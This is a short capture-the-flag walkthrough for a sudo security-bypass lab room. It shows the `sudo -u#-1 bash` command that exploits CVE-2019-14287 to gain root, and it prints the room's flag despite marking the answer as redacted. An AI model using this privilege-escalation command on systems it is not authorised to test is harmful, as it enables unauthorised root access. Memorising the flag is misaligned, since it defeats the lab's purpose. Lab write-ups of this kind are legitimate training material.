


> # Sudo Security Bypass 

## Task 2 - Security Bypass
1. What command are you allowed to run with sudo?<br>
    Connect to SSH port 2222 with the given credential.<br>
    Use `sudo -l` to find what command allowed to run with sudo.<br>
    <br>
    **Answer:** /bin/bash

1. What is the flag in /root/root.txt?<br>
    Privilege to root with CVE-2019-14287 vulnerable by command `sudo -u#-1 bash`.<br>
    <br>
    Read the flag in `/root/root.txt'.<br>
    ```
    # cat /root/root.txt 
    THM{l33t_s3cur1ty_bypass}
    ```
    **Answer:** THM{\<redacted>}
